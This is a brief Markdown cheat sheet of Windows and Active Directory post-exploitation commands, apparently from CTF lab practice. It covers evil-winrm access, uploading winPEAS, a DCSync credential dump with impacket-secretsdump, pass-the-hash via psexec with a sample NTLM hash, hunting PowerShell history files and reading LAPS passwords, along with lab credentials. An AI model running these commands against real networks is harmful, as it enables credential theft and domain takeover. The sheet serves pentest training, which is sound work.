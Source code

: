 # Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm

connect to system with eveil-winrm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
command to upload files through win-rm
```
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

##### look for Console_Host_History file 
```
Get-ChildItem -Path C:\ -Include *ConsoleHost_history.txt -File -Recurse -ErrorAction SilentlyContinue
```

#### If in the LAPS reader group : 
```
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd
```
